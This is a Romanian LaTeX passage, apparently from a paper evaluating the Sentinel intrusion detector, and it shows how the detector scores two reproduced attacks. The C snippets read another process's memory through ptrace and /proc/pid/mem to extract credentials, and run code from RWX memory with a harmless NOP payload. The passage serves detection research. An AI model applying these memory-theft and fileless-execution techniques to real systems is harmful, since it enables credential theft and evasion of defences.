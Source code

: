 \par \textbf{REP-20 (Furt de memorie în stil LSASS):} Atacul citește memoria procesului țintă pentru a extrage credențiale în clar, folosind pseudo-fișierul de memorie \cite{Bundles2021}:

\begin{lstlisting}[style=cstyle,caption={REP-20: Extragerea credențialelor din memorie via /proc/pid/mem}]
ptrace(PTRACE_ATTACH, victim, NULL, NULL);
waitpid(victim, &st, 0);

char mem_path[64];
snprintf(mem_path, sizeof(mem_path), "/proc/%d/mem", victim);
int memfd = open(mem_path, O_RDONLY);
ssize_t n = pread(memfd, dump, sizeof(dump)-1, (off_t)rstart);
close(memfd);

ptrace(PTRACE_DETACH, victim, NULL, NULL);
\end{lstlisting}
\par\textit{Sentinel interceptează \texttt{ptrace} $\rightarrow$ \texttt{ProcessInjection} $\uparrow$ și \texttt{openat(\textquotedbl/proc/\textless pid\textgreater/mem\textquotedbl)} $\rightarrow$ \texttt{LSMFileWrite} $\uparrow$; combinație unică în activitatea legitimă $\rightarrow$ scor $\approx 85$ $\rightarrow$ FREEZE.}

\subsection{Evaziunea defensivă: execuție \textit{fileless} și memorie RWX}
\label{subsec:attack_fileless}

\par Atacurile din această categorie evită interacțiunea cu sistemul de stocare, executând cod exclusiv în memoria RAM.

\par \textbf{REP-07 (Injecție de shellcode în memorie RWX):} Alocă memorie simultan lizibilă, scriptibilă și executabilă, semnătura primară a malware-ului în memorie:

\begin{lstlisting}[style=cstyle,caption={REP-07: Alocare și execuție shellcode în memorie RWX}]
void *region = mmap(NULL, 4096,
    PROT_READ | PROT_WRITE | PROT_EXEC,
    MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);

/* Sled NOP finalizat cu RET (payload inofensiv) */
unsigned char nop_sled[] = { 0x90, 0x90, 0x90, 0xC3 };
memcpy(region, nop_sled, sizeof(nop_sled));

mprotect(region, 4096, PROT_READ | PROT_EXEC);
((void(*)(void))region)();
\end{lstlisting}
\par\textit{Sentinel interceptează \texttt{mmap} anonim cu \texttt{PROT\_EXEC} $\rightarrow$ \texttt{MemoryInjection} $\uparrow$ și \texttt{mprotect} pe regiune anonimă cu \texttt{PROT\_EXEC} $\rightarrow$ al doilea increment \texttt{MemoryInjection} $\rightarrow$ scor $\approx 45$ $\rightarrow$ WARN.}


